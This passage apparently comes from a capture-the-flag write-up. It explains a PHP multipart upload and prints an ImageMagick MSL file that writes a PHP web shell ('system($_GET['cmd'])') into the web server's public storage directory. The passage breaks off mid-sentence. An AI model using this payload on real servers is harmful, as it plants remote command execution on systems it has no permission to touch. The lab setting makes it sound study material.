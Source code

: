 ![image-20230914211121039](../img/image-20230914211121039.png)

That does work. I’ll want to upload a file that will be temporarily written to
`/tmp/php*` by PHP. To do that, I’ll use a multipart form data by setting the
`Content-Type` header. By giving it `filename` and `Content-Type` attributes,
PHP will handle it as a file.

The file will be a modified version of what’s in the blog post:

    
    
    <?xml version="1.0" encoding="UTF-8"?>
    <image>
    <read filename="caption:&lt;?php system($_GET['cmd']); ?&gt;" />
    <write filename="info:/var/www/html/intentions/storage/app/public/0xdf.php" />
    </image>
    

Because the admin page gives both the path on the webserver and the path on
disk:
